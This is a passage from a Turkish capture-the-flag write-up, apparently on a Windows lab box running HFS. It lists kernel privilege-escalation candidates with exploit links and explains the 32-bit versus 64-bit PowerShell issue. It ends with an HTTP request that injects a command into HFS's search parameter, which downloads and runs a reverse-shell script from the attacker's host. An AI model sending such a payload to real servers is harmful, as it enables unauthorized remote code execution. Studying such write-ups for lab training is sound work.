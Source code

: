 ```
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135
VulnStatus : Appears Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.html
VulnStatus : Not Vulnerable
```

MS16-032, MS16-034 ve MS16-135 olmak üzere üç adet “Güvenlik Açığı Görünüyor” ibaresi bulunmaktadır.

### Mimarinin Önemi

Bu açıkları çalıştırmak için bir süre uğraştım ve çalışması gereken yerlerde çalışmadılar. Sonra çalışan PowerShell prosesinin proses mimarisini bilmenin önemini hatırladım.

Shell'i etkinleştirmek için `powershell`'i çağırmak, 32 bit proses olarak çalışan bir proses döndürüyor:

```
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
False
```

Bunun nedeni HFS prosesinin muhtemelen 32 bit proses olarak çalışıyor olmasıdır. Bu tablo ([ss64.com](https://ss64.com/nt/syntax-64bit.html)'dan alınmıştır) mevcut session mimarisine göre farklı yolların nasıl çalıştığını göstermektedir:

![Pasted image 20250109033027.png](/img/user/resimler/Pasted%20image%2020250109033027.png)

Bir 32-bit oturum içerisindeyken, `C:\windows\system32` yolundan PowerShell çağrısı yaptığınızda, 32-bit sürüm çalıştırılır. 32-bit bir oturumda çalışırken, 64-bit bir işletim sistemine karşı kernel exploit'lerini çalıştırmaya çalışmak başarısız olacaktır.

64-bit bir shell elde etmek için, **`sysNative`** dizinindeki PowerShell'in tam yolunu kullanacağım.

```
GET /?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').} HTTP/1.1
Host: 10.10.10.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: HFS_SID=0.916518518235534
Upgrade-Insecure-Requests: 1
```
